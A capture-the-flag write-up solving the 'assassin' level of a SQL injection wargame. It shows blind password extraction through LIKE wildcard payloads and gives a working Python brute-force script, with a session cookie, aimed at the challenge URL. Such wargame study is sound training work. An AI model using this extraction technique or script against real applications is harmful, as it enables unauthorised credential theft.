 ```yaml
---
custom_edit_url: null
sidebar_position: 15
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a4d30de7-86ed-4978-8c4c-38f8827700a5)

We are provided with theSQL query:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '{$_GET[pw]}'
```

## Filter

The code filters out the following characters:

- Single quotes

## Blind SQL Injection

We have to use wildcards to leak out the password.

#### Wildcard

![Pasted image 20240621082037](https://github.com/Kunull/Write-ups/assets/110326359/7c57a891-1577-4c2d-940d-556cac31d631)

More specifically, we have to use the (`%`) wildcard.

If we provide the following URI parameter:

```
?pw=%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '%'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/4f441821-33d7-40d8-ac70-76dea5327282)

Since the `Hello guest` message is printed, we know that the `guest` user has a lower index than the `admin` user.

Let's provide the following URI:

```
?pw=0%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '0%'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/111c6b2d-5420-4ed9-adbd-2fd4e989cc44)

The first character of none of the passwords is `0`.

We can try other characters moving up to the following:

```
?pw=9%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '9%'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/949f9c1a-f635-4af9-a930-8a212bf4ce66)

So the first character of both the `admin` and `guest` password is common, being `9`.

We can keep on following this method until the `Hello admin` message is included in the response. That tells us that the password is exclusive to the `admin` only.

```
902%
```

### Script

We can automate the entire process using a script.

```python title="assassin_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'cih6lj5v0dkr263t42fnn0d7br'}
url = 'https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php'

guest_password = ''
admin_password = ''
searchspace = string.digits + string.ascii_letters
print()

for index in range(1, 9):
  for char in searchspace:
    payload = f"{guest_password}{char}"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?pw={encoded_payload}%'

    response = requests.get(full_url, cookies=cookies)

    if ("Hello admin" in response.text):
      admin_password = guest_password + char 
      break
    elif ("Hello guest" in response.text):
      guest_password += char
      print(f'[x] Common character: {char}')
      break

print()
print(f'[x] Distinct character: {char}')
print(f'[!] Extracted password: {admin_password}%')
print(f'[!] Final payload: ?pw={admin_password}%')
```

```
$ python .\assassin_script.py

[x] Common character: 9
[x] Common character: 0

[x] Distinct character: 2  
[!] Extracted password: 902%
[!] Final payload: ?pw=902% 
```

If we provide the following URI:

```
?pw=902%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '902%'
```

![0](https://github.com/Kunull/Write-ups/assets/110326359/72b89d8f-5346-492b-a89d-52247da864c1)
